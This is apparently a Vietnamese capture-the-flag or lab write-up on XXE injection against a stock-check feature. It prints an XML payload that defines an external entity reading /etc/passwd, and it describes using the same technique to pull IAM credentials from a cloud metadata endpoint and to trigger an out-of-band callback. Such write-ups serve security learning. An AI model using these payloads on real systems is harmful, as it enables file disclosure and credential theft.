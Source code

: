 ![image](https://github.com/user-attachments/assets/fec71b7a-2c45-415e-bc58-6dcd860f9253)

Trong web có cái check stock dùng xml:

![image](https://github.com/user-attachments/assets/5d8bf9eb-857a-497a-8764-918e770534d9)

![image](https://github.com/user-attachments/assets/4befdeb1-bce8-42c9-9264-2c95f21b5e93)

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lmao [ <!ENTITY lmao1 SYSTEM "file:///etc/passwd"> ]>

<stockCheck>
<productId>&lmao1;
</productId><storeId>2</storeId></stockCheck>
```

Tạo 1 cái ENTITY mở file /etc/passwd

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/3d647ea7-d282-493b-adf2-35668ea33d5c)

![image](https://github.com/user-attachments/assets/c865df3e-c259-4da1-9b57-01d8b7942010)

Lần này làm giống bài cũ nhưng không có được

![image](https://github.com/user-attachments/assets/eea7330a-df34-40ad-83f6-c94ce3f10446)

Tôi tra mạng thì ra được cái này [Retrieve security credentials from instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instance-metadata-security-credentials.html):

![image](https://github.com/user-attachments/assets/50eb2ec6-2623-483c-ae7f-d10fb2c9a0bd)

Và tôi thêm cái latest/meta-data/iam/security-credentials/admin vào sau, nó ra:

![image](https://github.com/user-attachments/assets/7b1516ac-44b1-4709-b5a8-0f014b380a74)

Xong

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/754be58c-4156-43b5-9d8c-4e6c26ebeb6f)

Đây là req check stock:

![image](https://github.com/user-attachments/assets/27831c9a-8d98-4212-b0b0-ce016e6e3502)

Tôi thử cái payload cũ thì không có được:

![image](https://github.com/user-attachments/assets/763c56ac-10ff-4a1d-b06b-bbff6673efec)

Tôi thử thay bằng cái link burp collaborator vào:

![image](https://github.com/user-attachments/assets/7d700cd7-60c0-4126-a3bd-68c69c17cc46)

![image](https://github.com/user-attachments/assets/04319aa1-4a6b-4fde-b37d-92d3d547b3ee)

Và nó có gửi req tới, xong

![image](https://github.com/user-attachments/assets/538c6c88-7493-4097-9389-4af04c03d7f5)

<h1>---------------------------------------------------------</h1>
<br>


































































































